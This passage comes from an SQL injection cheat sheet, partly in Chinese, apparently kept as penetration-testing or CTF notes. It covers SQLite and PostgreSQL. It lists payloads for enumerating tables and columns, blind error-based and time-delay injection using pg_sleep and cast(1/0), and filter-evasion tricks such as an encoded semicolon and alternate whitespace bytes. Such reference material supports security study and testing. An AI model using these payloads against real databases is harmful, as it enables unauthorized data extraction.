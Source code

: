     - 可以用`Case When ... Then ...`代替
    - `case when (條件) then ... else ... end`
- 註解
    - `--`
- 爆表名
    - `SELECT name FROM sqlite_master WHERE type='table'`
- 爆表結構(含Column)
    - `SELECT sql FROM sqlite_master WHERE type='table'`
- 其他
    - `sqlite_version()`
    - sqlite無法使用`\'`跳脫單引號


## PostgreSQL
### Union-Based
- Database contents
	* `SELECT * FROM information_schema.tables`
        ```
        TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
        =====================================================
        MyDatabase dbo Products BASE TABLE
        MyDatabase dbo Users BASE TABLE
        MyDatabase dbo Feedback BASE TABLE
        ```
	* `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
        ```
        TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
        =================================================================
        MyDatabase dbo Users UserId int
        MyDatabase dbo Users Username varchar
        MyDatabase dbo Users Password varchar
        ```
### Blind
- Conditional Errors
    - `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
- Conditional Time Delay
    - `pg_sleep()`
    - `repeat()`
    - `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
### Other Knowledge
- Substring
    - `substr("abc", 1, 1) => 'a'`
- semicolon
    - `%3b`
- Ascii function
    - `ascii('x') => 120`
- Char function
    - `chr(65) => A`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'`
- Delay function
    - `pg_sleep(5)`
    - `GENERATE_SERIES(1, 1000000)`
    - `repeat('a', 10000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- encode / decode
    - `encode('123\\000\\001', 'base64')` => `MTIzAAE=`
    - `decode('MTIzAAE=', 'base64')` => `123\000\001`
- 不支援 limit N, M